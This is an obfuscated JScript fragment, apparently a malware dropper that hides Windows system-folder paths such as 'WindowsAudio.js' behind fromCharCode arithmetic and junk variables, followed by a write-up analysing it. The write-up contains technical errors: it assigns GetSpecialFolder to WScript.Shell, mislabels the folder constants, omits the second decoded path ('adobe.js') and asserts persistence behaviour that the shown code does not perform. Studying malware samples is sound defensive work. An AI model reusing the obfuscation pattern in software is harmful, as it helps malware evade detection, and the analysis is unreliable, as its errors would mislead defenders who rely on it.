 ```javascript
//ttWJlzvpiivojHzEUAhTzBpKbItTcRyAkRcJEkJMwtdPBWCwIlZegPJrEMidFbNRkuDSepzkrVWGYZIEFwLrsTTVHkFsCgGUgLeGTkSSlonLtDTeDdXJQVYRahKtjGiKOCZMvCkVesFDfIcERbpYIxDKnMglaYieGdxqdGjAtCeXQUmSFFbIRKCRyPZiWyuFJaxBLlbLspeFSgtSaNfUwaNvafsNgAeuHZNpXkHUeQQcfwySVHHISaIjNBaftNfrKjxsSEvpGLqgKlQeharYtVchQebVJcaQlYRvzFzRMRCGkcZblwxTWGyoHQcocZgdkZulTUebaaMbTVxoFAjMeHu
var fadojdLomlYWKhnIQRWsvtXVmSnjcpTzdfPLqgvxPmZpuznGRrTuHPylDHBQpbLxRZteScRjWYcJThanfhRkWYrNhdHjffInacXVGIooajYjnoRWgOkIKbathfwoUiEqQojrJFhXscKmzIasLlCQvAdzBenaLAUsfiSyFaMbhNPhQotYFEcifouQKkpeRGLsIRHRpbnl
//ZbihkwiNlPVHXlNqnCnVkhJbCWYzhbjdQrJEFNfOBctClDVXEQdmoSArRHfOYigJgsrgbIlaXZTIoHqyBAvQywoyqSnyhRqTwkWsMowvfDPPyrCJRhMXnPLjDspIVmtGiAMElxmMDzluhZzzPdgzESfgYmpTznasJIgyeyYUvzToeQCdtqtsFtBQVgfyHSNQYskYtBUREMEEzrCIjMaJuimQGQdySZMcmDPlfdjrVbntpwQddXPvsEVqFURdXVyezbSvbQcGcinTutbJzzUvKRkiiYfLMGUzdItNeVCNuISJQCwMtHdYADUi
var rjNClRuVOnqlAOfdxHABybSfcTSEcvyZoLWvIzbdOxvcMKMecAbtCSjQRhZRypsSoQxosjVxfXmBfpTSGnbcUFXVbFdaaJeYEcowMXmteeNffikbOGLLOPyisbNmFvXVsNwDBXFjAhypssptVCMTyTKpdFDlKAniHrnSlgarBcKgQJqAlTQDjDXYDHawTUYzuPiBFXHp
GzCMjpDjYhhYWHHThilDQVeGymbJltUvtlUrnp = new ActiveXObject( PgzUcHFqXBauyUkJEHJeUMyboRaPjLDAVOTEJKJzSKXppeaRcEPVeTQDiYfKgqHLyZZjBfztxKLJpJlJr ).GetSpecialFolder( MUANDLeiBrTGGIzOEbFpxXdmWqjhDVDAGXWqjSUhoDgONyEWSjtPCVHpqOqNcxffoSzjlJflGYBuqPZYmNOTcnxl ) + String.fromCharCode(475-383) + String.fromCharCode(90-3) + String.fromCharCode(474-369) + String.fromCharCode(175-65) + String.fromCharCode(358-258) + String.fromCharCode(337-226) + String.fromCharCode(200-81) + String.fromCharCode(204-89) + String.fromCharCode(162-97) + String.fromCharCode(273-156) + String.fromCharCode(439-339) + String.fromCharCode(229-124) + String.fromCharCode(145-34) + String.fromCharCode(216-170) + String.fromCharCode(185-79) + String.fromCharCode(372-257) ;
//bVRWJdYUODzqkjzDTOOeGeXgDKmBaovNLbcOlAPaiGhPUiPKQfhqJdixxlTyqXtaIleIHlRTzovAwHMUubkvHFEiseQAhQjLMHHiDHDeNOqUhiApZyDPmxSDhwPcUQliFknpAdRnYFisOjAKeabjNTYPoEBHraJwdHPxvLpvhPqgPZoxvFytpBVlMXAvcJvxvlPGTDOTlgCxdrAOPDLmcPHbmekYKtTXTskdKhdsrfIJzXIUXlgYxJVgdoUoSqIrMedkGWEhZTvwHybOWQAYNuaKXEzVNoZAXRwUtXNAgyzdOYYfMFSCpje
var RETMBWjUktuZpBHVyCzrOvwvyfUIHWXKnmeQaKLexeOjTyidFkTAprPVIXOVCaNNWjmDXrvnqVukhMczxrDWDXVwXIICwpbXQANjMfGOpfJUxfovvOYLWqKzOpfOisrAtXTgzsmRkphYNAzrUMGhRQAZqOVWzrfwnIaaLHwDcHagJllNqouWmJjcWuqkWQRtKkkEaZfMQDF
//JqTPEcHgLxIKeZxDRRLgMqgWZBgnRIhGiEamCelIPkFvBZGfdVOvEXtTJxqDvUODQCcZzLBmfDRbklUzvBJwtlBLKGcEoiMuVCfzxggSUbQBFRjYdqIuKSJeAQPsiwywqWGhFUCOVrbSVAFtXDbxaSjDtByhRnjYdTKjLBSIotYTqrIALVUeUAWYmDnEWVxhIDoCpWiVlTJgtQMCsyVvTEDdwmwIOOmTwrLmCFKonytBqpeVqkLXzBODALGDZZHWgqkCFZAnohHUKBmHIaRdCPUucHmqzGPNrXUAEcQQkYjRtttyZyvyIeURWqZynJnhRudnglCgKBsdgCBiOoRALQFNCDeOCRdbkBAzQFRnvPoGlqlTpqkyrnVBoQl
var dHodsYQteCBSIXeFwczbLSKZMhekxfyKAUnfHlviUxGRnYbbMiZYpoZLwORKtgwyDqRojyxKgRHOLtmoGCXPGaVMucjtUkonBHOwGnrOkOrYhLzDccErJgrdVFtGPEqwdTMDephTLIesixeidfQrgxeUPlbAtlzgYvvNzvYmvkgACzuXaKdjnyPgosntOhaZJyUmCRjhHe
EaynfYYhOhTHCoDWlkUvOwNtyfNleknQgseKFdpFiQYuqdqgrWAjWsaHMEoAKmDdtDbKJsRHuPMx = new ActiveXObject( PgzUcHFqXBauyUkJEHJeUMyboRaPjLDAVOTEJKJzSKXppeaRcEPVeTQDiYfKgqHLyZZjBfztxKLJpJlJr ).GetSpecialFolder( MUANDLeiBrTGGIzOEbFpxXdmWqjhDVDAGXWqjSUhoDgONyEWSjtPCVHpqOqNcxffoSzjlJflGYBuqPZYmNOTcnxl ) + String.fromCharCode(475-383) + String.fromCharCode(100-3) + String.fromCharCode(469-369) + String.fromCharCode(176-65) + String.fromCharCode(356-258) + String.fromCharCode(327-226) + String.fromCharCode(127-81) + String.fromCharCode(195-89) + String.fromCharCode(212-97) ;
//wwReSQqDZiHPsZgOZGIeYNKGqEfHVJbwcJBSPKaXDLIrStFuGnsdZcGjmKnNlihPHLnjXNzOgkbMFSnxykBhRxWzDSgEWMmUdskGFWWsndwoAteTXqPAgzxJoofFhvsUyHjMhhrcOJuoBiyKoMhgxlnduaRRrRLrkcptJRlpymmXFJIGpVQUOMWNTFRHPZlwyCDZsEAWbrhKzQXlSLbVArdYFcaEzeaZBpZCFiOkUtsXfMODhgoExPwGZfTQewXwQIIJqVgkxrBGyFtsOWWTqWbmtSdZOyGYWwGWEEMMzDGGNpITlbBHZDFuhVPYrGVzkcjBzWoJKJUmPUYDJJnnwyyTqMpipnVs
var iHWlGGUPmsxQjTfNxMPhShCldPLngGUWobDHxnxCpYADBikXhckcYnaBFkHqvhigYabHPXPKOMsugykufnGEVryABCCNfHHHqUfbHcIJNaNMufUGANKHbeLgcaGMVCeHEkDMTInCfwqudmFViwMSwzgMIyzgWvoLwFHKcHmrZIcenRCpVkeZpMLEDrEUJHfjIfyXevtaJVs
//nXCYrwJLlRPVjuCGkDShScsWHTeLZrEPUUXhBTMYAwtStKOdcoJWrnaLffQYRyluMzBPWVERruhViadxEBikhiYgtMCWCoHBLzFtJzHHksfwGEcECTTPPAMeaUVJTiOCmfKjUjoEubApDbaokxTiVrmKmaToexnBdcKbuskSfOVnAXbyugZVPggvsAxtQzaxnzMaRyurNADGWyKPzUuxYRmxwOiuuqCfoYAAKBgvlhIOcaZuqiuvFcYVNPeDQAxWxXSxyJEynzMqJXUVpnEMwHaLzenvWdelklQEHbwgdvHFQiMpuINcwkaqxHyTVIbJUaGXHQONrXiAzUvRRyBOPBp
var zLZHAccLUTxlpbpheuAlYBarcLhCXHNuSlGMhINkOMNgBjFpcQWTPQQykheovZnNGDSEUdAVgPWMntqtGsaGlteCVIbzdYppYAaxQBUyQAnAtEKqrliCzhbMYQiMBAsHZhnnTsdEXbqkGeIQykIrqmpqZNYzSIwPIfaLQWXyIdfXrrGuHSNRsARmswOGUdmPfacbDxzbNJj
```


# JavaScript Malware Code Analysis
## Overview
This documentation provides a comprehensive analysis of an obfuscated JavaScript code sample identified as a potential malware dropper. The analysis includes code
deobfuscation, technical breakdown, and security implications.

## Code Analysis

### Original Obfuscated Pattern
```javascript
GzCMjpDjYhhYWHHThilDQVeGymbJltUvtlUrnp = new ActiveXObject(...).GetSpecialFolder(...) + 
    String.fromCharCode(475-383) + String.fromCharCode(90-3) + ...
```

### Deobfuscated Version
```javascript
targetPath = new ActiveXObject("WScript.Shell").GetSpecialFolder(SYSTEM_FOLDER) + "\\WindowsAudio.js"
```

## Technical Breakdown

### Core Components
1. **ActiveXObject Creation**
   - Creates `WScript.Shell` object
   - Provides system-level access to Windows
   - Common in malware for accessing system resources

2. **System Directory Access**
   - Uses `GetSpecialFolder()` method
   - Targets system directories like:
     - Windows Desktop (0)
     - Start Menu Programs (1)
     - Windows System32 directory (2)

3. **File Path Construction**
   - Creates path to "WindowsAudio.js"
   - Uses character-by-character construction via `String.fromCharCode()`
   - Results in a path like: `C:\Windows\System32\WindowsAudio.js`

### Obfuscation Techniques
1. **String Obfuscation**
   - Uses `String.fromCharCode()` with arithmetic operations
   - Example: `475-383` produces character code 92 ("\\")
   - Makes the code harder to read and analyze

2. **Code Structure Obfuscation**
   - Long, random variable names
   - Multiple dummy variable declarations
   - Redundant code paths
   - Comments with random strings

## Malware Purpose and Functionality

### Primary Objectives
1. **System Persistence**
   - Creates/modifies JavaScript file in system directory
   - Ensures survival after system reboots
   - Hides among legitimate system files

2. **Stealth**
   - Uses legitimate-looking filename ("WindowsAudio.js")
   - Places file in trusted system location
   - Heavy obfuscation to avoid detection

### Attack Strategy
1. **Initial Access**
   - First stage of multi-stage attack
   - Establishes foothold in system
   - Creates persistent file for further operations

2. **Potential Follow-up Activities**
   - File could serve as backdoor
   - Download additional malware
   - Execute malicious payloads
   - Data theft operations

## Security Implications

### Risk Factors
1. **System Access**
   - Uses powerful system objects
   - Targets sensitive system directories
   - Potential privilege escalation

2. **Persistence Mechanisms**
   - Survives system restarts
   - Difficult to detect and remove
   - Mimics legitimate system files

### Detection Challenges
1. **Evasion Techniques**
   - Complex obfuscation methods
   - Legitimate-looking file names
   - System directory placement
   - Multiple layers of code hiding

## Conclusion
This code represents a sophisticated attempt to establish persistent malware presence on a target system. The combination of system directory access, file operations, and heavy obfuscation indicates a well-planned malicious payload designed for stealth and persistence.

## Recommendations
1. Implement strict ActiveX controls
2. Monitor system directory modifications
3. Deploy behavioral analysis tools
4. Maintain updated security signatures
5. Regular system audits for suspicious JS files
